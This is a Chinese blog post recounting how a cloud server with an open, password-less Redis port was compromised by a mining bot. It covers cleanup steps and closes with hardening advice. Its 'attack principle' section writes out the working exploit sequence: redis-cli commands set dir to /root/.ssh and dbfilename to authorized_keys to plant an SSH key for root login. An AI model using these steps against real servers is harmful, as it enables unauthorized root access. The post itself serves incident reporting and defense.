 ```yaml
---
title: 记录一次服务器因Redis被攻击的案例
date: 2022-06-16 17:26:17
tags:
- redis
- 服务器安全
categories:
- 1933

---
```


## 背景
最近在开发开源项目Report Monitor时，后端使用到了Redis，为了方便本地调试直接连生产环境，将腾讯云服务器上的Redis端口6379对外开放了（同时没有设置口令和关闭了防火墙）。


## 过程

### 收到提醒

在开放端口仅仅10分钟后，就收到了腾讯云的告警邮件：

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/864e969c234d4711a92fa39525520d5b~tplv-k3u1fbpfcp-watermark.image?)

于是查看机器监控，发现CPU和内存都出现了占用率暴涨的情况，而且外网出包/入包量也是非常不正常，的确被人攻击了：

![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/ff76d409eee44dc4832d3fb89c0a4bf8~tplv-k3u1fbpfcp-watermark.image?)

### 排查进程


首先top一下看看有没有什么又问题的进程，进入top输入P可以按照cpu占用率排序。结果发现了一个这么个进程rshim，查了一下是肉鸡挖矿的病毒，现在这个端口是7295每当我kill他的时候，他就会在其他随机端口又开启：

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/f0689b1457bf460fbb9c8fe582c732ed~tplv-k3u1fbpfcp-watermark.image?)

最后，直接进入到`/usr/sbin/rshim`，把内容全删，再也不重启了。

再来查看一下网络情况，程序肯定是把本机的一些数据往外面传了，结果发现这个家伙把我本地好多的命令全部都改了，气死我了，例如下面netstate命令把我的可执行权限给删了：

```
# 查看网络相关信息
netstat -aptn
sudo netstat -aptn

# 查看netstat命令在哪里
which netstat
whereis netstat

# 查看一下netstat程序的相关信息
ls -l /bin/netstat

```

结果提示netstat没有x权限（可执行权限），那就用chmod给它加下x权限，结果发现netstat不能赋值可执行权限，如下所示：

```
sudo chmod +x /bin/netstat
lsattr /bin/netstat
```
结果提示没有权限使用该命令：

![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/c3c732b88b5044d193cd0adda3de8b40~tplv-k3u1fbpfcp-watermark.image?)

解决方法就是使用chattr命令来更改，把其i属性去除，结果如下所示，chattr命令招不到：

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/30b9ce2fc3cd479d8d70f5fb5b11c710~tplv-k3u1fbpfcp-watermark.image?)

原来这个病毒已经预知了你可能会用到的命令，所以直接把这些命令全部干掉了，暂时搁置。


### 排查违规用户

group查看一下目前登录的用户，目前只有我自己的root，没什么问题，在查一下这台服务器上所有的用户：

```
cat /etc/passwd |cut -f 1 -d :
```

发现一下多了一个叫做lsb的用户（老色皮？？），这个不是我创建的，进入`/home/lsb`下，`ls -la`查看一下隐藏文件，确实发现了猫腻：

![image.png](https://p6-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/eecb67da0f64426cbcc3e9e9ce50fc4c~tplv-k3u1fbpfcp-watermark.image?)

好家伙，直接拿到了我服务器的ssh权限，这就意味着可以直接登陆到我的服务器上操作了，好在时间不长，赶紧删掉：

```
rm -rf .ssh
userdel hilde
```

发现无法删除文件，说没有权限？然后删除用户的时候，还说不能打开这个文件：

![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/f7e3f921c2314ae39ab7f3f8735750c5~tplv-k3u1fbpfcp-watermark.image?)

发现这个权限中，有a权限，意思是在里面追加，不可删除文件的意思，最后还需要使用chattr命令，好家伙，又回到原点。


### 开始摆烂

经过上诉一顿操作，感觉我的服务器已经被污染了，但又不确定污染了哪些地方，直接备份自己/root目录下的文件，然后重新初始化服务器实例。


## 攻击原理

Redis 默认配置为6379端口无密码访问，如果Redis以root用户启动，攻击者可以通过公网直接连接Redis，向root账户写入SSH公钥文件，以此获取服务器权限注入病毒。

### 具体流程模拟

首先在本地生产公私钥文件：

```
$ssh-keygen –t rsa
```

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/462eefad34b54fd5a2f73b70ea532787~tplv-k3u1fbpfcp-watermark.image?)

然后将公钥写入key.txt文件：

```
$ (echo -e "  "; cat id_rsa.pub; echo -e "  ") > foo.txt
```

再连接Redis写入文件：

```
$ cat key.txt | redis-cli -h 192.168.1.11 -x set crackit
$ redis-cli -h 192.168.1.11
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
```

Redis（只在root启动下）关键在利用了config个配置指令功能，传递了ssh的key。如果不是已root启动redis，可能只会被清除数据。

这样就可以成功的将自己的公钥写入/root/.ssh文件夹的authotrized_keys文件里，然后攻击者直接执行：

```
$ ssh –i  id_rsa root@192.168.1.11
```

即可远程利用自己的私钥登录该服务器。


## 总结

1. 一些重要的端口不要随便对外开放。
2. 如果迫不得已端口需要开放，请配置好相关密码，密码尽量不要太简单，要不然容易被暴力破解。
3. 如无必要，不要以root权限运行redis。Windows系统下不要以system权限运行。
